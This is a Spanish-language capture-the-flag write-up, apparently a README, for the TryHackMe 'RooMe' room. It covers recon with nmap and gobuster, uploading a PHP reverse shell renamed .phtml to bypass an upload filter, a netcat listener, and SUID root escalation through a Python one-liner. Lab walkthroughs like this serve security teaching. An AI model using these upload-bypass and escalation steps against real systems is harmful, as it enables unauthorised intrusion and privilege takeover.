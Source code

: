 # RooMe
[![English](https://img.shields.io/badge/English-blue.svg)](README.md) [![Español](https://img.shields.io/badge/Español-green.svg)](README.es.md)

## Dificultad: Fácil

Esta es una CTF interesante, gracias a la cual he aprendido la existencia de [GTFOBins](https://gtfobins.github.io/) y a cómo usarlo.

Esta CTF va por preguntas, como una sala normal de TryHackme.

## Task 1. Deploy the machine

### 1.1. Deploy the machine

`No answer needed`

## Task 2. Reconnaissance

Empiezo haciendo un ping para comprobar conectividad y si nos  enfrentamos a un Linux o un Windows:

```bash
ping -c 1 10.10.200.90
```

Por el ttl cercano a 64, se deduce que es un Linux.

![ping](img/1.png)

Lanzo un nmap para ver los puertos abiertos. 

```
nmap -p- -sS 10.10.200.90
```

![nmap](img/2.png)

### 2.1. Scan the machine, how many ports are open?

`2`

Para la siguiente pregunta, lanzo nmap ahora enfocado en el puerto 80.

![nmap -p 80](img/3.png)

### 2.2. What version of Apache is running?

`2.4.41`

### 2.3. What service is running on port 22?

`ssh`

Visito la web a ver qué encuentro:

![web](img/4.png)

Lanzo gobuster para ver los directorios ocultos:

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.200.90/ -x txt,js,html,php
```

![gobuster](img/5.png)

### 2.4. Find directories on the web server using the GoBuster tool.

`No answer needed`

### 2.5. What is the hidden directory?

`/panel/`

## Task 3. Getting a shell

Voy a uploads a ver:

![uploads](img/6.png)

Ahora a panel:

![panel](img/7.png)

Hmm, tenemos una sección para subir ficheros, y un index de subidas, todo pinta a una Reverse Shell. Así que voy a intentar exactamente eso. Usando la Reverse Shell de [Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell) 

La descargo, edito con mi IP y algún puerto random como el 5555.

![Reverse Shell](img/8.png)

Pongo netcat a escuchar por el puerto 5555:

```
nc -lvnp 5555
```

![netcat](img/9.png)

Intento subirla:

![php no permitido](img/10.png)

Vale, no se puede subir un .php. Vamos a probar a usar .phtml, que funciona igual que PHP, pero si solo han filtrado .php puede colar:

![phtml](img/11.png)

![exito](img/12.png)

Ha funcionado.

Vamos a activarla:

![trigger](img/13.png)

![Reverse Shell](img/14.png)

Ha funcionado, ya tenemos la Reverse Shell. Ahora uso el siguiente comando de python para convertirla en una shell TTY:

```python
python -c 'import pty; pty.spawn("/bin/bash")'

```

La tarea nos dice que la flag se llama user.txt, yo la he buscado en las distintas home pero nada, también en el directorio de inicio que es /, por tanto se me ocurre, sabiendo el nombre de la flag, buscarla directamente con find. Mando los errores a /dev/null porque no somos root y por tanto nos van a salir muchos mensajes de error por no tener permisos.

```
find / -name "user.txt" 2>/dev/null
```

![user.txt](img/15.png)

Y un cat

```
cat /var/www/user.txt
```

![cat](img/16.png)

### 3.1. Find a form to upload and get a reverse shell, and find the flag.

### user.txt

`THM{do_it_yourself}`

## Task 4. Privilege escalation

## Now that we have a shell, let's escalate our privileges to root.

Nos piden buscar ficheros con permisos SUID. SUID es el número 4000. Es un tipo especial de permiso, que hace que el archivo se ejecute con los permisos del usuario dueño, incluso si no lo eres. Por tanto vamos a buscar con find los que son propiedad del usuario root:

```
find / -user root -perm -4000 -type f 2>/dev/null
```

La pista nos informa de la existencia de GTFOBins. Un repositorio en línea con mucha información que podemos usar para escalar privilegios. Allí podemos filtrar por SUID y nos ayuda a encontrar el binario aprovechable:

![python](img/17.png)

### 4.1. Search for files with SUID permission, which file is weird?

`/usr/bin/python`

Así como el comando que necesitamos:

```
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![python -c](img/18.png)

### 4.2 Find a form to escalate your privileges.

`No answer needed`

Ya es solo mirar en /root:

```bash
ls /root
cat /root/root.txt
```

![root](img/19.png)

### 4.3. root.txt

`THM{do_it_yourself}